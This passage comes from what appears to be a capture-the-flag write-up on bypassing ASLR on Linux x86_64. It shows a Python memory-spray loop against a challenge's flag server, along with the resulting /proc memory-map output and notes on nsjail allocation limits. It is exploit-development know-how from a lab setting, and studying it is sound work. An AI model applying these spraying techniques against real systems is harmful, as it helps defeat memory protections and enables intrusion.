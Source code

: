 If you try do it again:

```
isAddrMapped(IN_ADDR, 0, 0x4000000)
isAddrMapped(IN_ADDR, 0, 0x4000000)

```

That's the result:

```
7f344c000000-7f3450000000 r--p 00000000 00:af 5                          /challenge/files/1.unkyle
7f3450000000-7f3454000000 r--p 00000000 00:af 3                          /challenge/files/0.unkyle


```

Nice! Multiple allocations won't have gaps.

[](#44-how-much-memory-to-spray)4.4 How much memory to spray?
-------------------------------------------------------------

As you can see from [this poc](#poc-of-aslr-bypass-on-linux), the ideal size for the contiguous mapped memory would be 16TB.

Unfortunately, if you try to allocate 16TB of memory on the remote server, the mmap will fail, because [nsjail limit this](https://github.com/nick0ve/how-to-bypass-aslr-on-linux-x86_64#21-initial-foothold).

After some trial and error I found out that I can spray ~3840mb of memory, with this code:

```
size =    0x000004000000
for i in range(0, 60):
    print ('.', end='')
    isAddrMapped(IN_ADDR, i, size)

```

the result memory mappings will be something like this:

### [](#memory-spray-result)Memory Spray result

```
root@088ec31b2ce9:/home/ctf/challenge# cat /proc/`pgrep flag_server-exe`/maps
...

7fe2dc000000-7fe2e0000000 r--p 00000000 00:af 121                        /challenge/files/59.unkyle
7fe2e0000000-7fe2e4000000 r--p 00000000 00:af 119                        /challenge/files/58.unkyle
7fe2e4000000-7fe2e8000000 r--p 00000000 00:af 117                        /challenge/files/57.unkyle
7fe2e8000000-7fe2ec000000 r--p 00000000 00:af 115                        /challenge/files/56.unkyle
7fe2ec000000-7fe2f0000000 r--p 00000000 00:af 113                        /challenge/files/55.unkyle
7fe2f0000000-7fe2f4000000 r--p 00000000 00:af 111                        /challenge/files/54.unkyle
7fe2f4000000-7fe2f8000000 r--p 00000000 00:af 109                        /challenge/files/53.unkyle
7fe2f8000000-7fe2fc000000 r--p 00000000 00:af 107                        /challenge/files/52.unkyle
7fe2fc000000-7fe300000000 r--p 00000000 00:af 105                        /challenge/files/51.unkyle
7fe300000000-7fe304000000 r--p 00000000 00:af 103                        /challenge/files/50.unkyle
7fe304000000-7fe308000000 r--p 00000000 00:af 101                        /challenge/files/49.unkyle
7fe308000000-7fe30c000000 r--p 00000000 00:af 99                         /challenge/files/48.unkyle
7fe30c000000-7fe310000000 r--p 00000000 00:af 97                         /challenge/files/47.unkyle
7fe310000000-7fe314000000 r--p 00000000 00:af 95                         /challenge/files/46.unkyle
7fe314000000-7fe318000000 r--p 00000000 00:af 93                         /challenge/files/45.unkyle
7fe318000000-7fe31c000000 r--p 00000000 00:af 91                         /challenge/files/44.unkyle
7fe31c000000-7fe320000000 r--p 00000000 00:af 89                         /challenge/files/43.unkyle
7fe320000000-7fe324000000 r--p 00000000 00:af 87                         /challenge/files/42.unkyle
7fe324000000-7fe328000000 r--p 00000000 00:af 85                         /challenge/files/41.unkyle
7fe328000000-7fe32c000000 r--p 00000000 00:af 83                         /challenge/files/40.unkyle
7fe32c000000-7fe330000000 r--p 00000000 00:af 81                         /challenge/files/39.unkyle
7fe330000000-7fe334000000 r--p 00000000 00:af 79                         /challenge/files/38.unkyle
```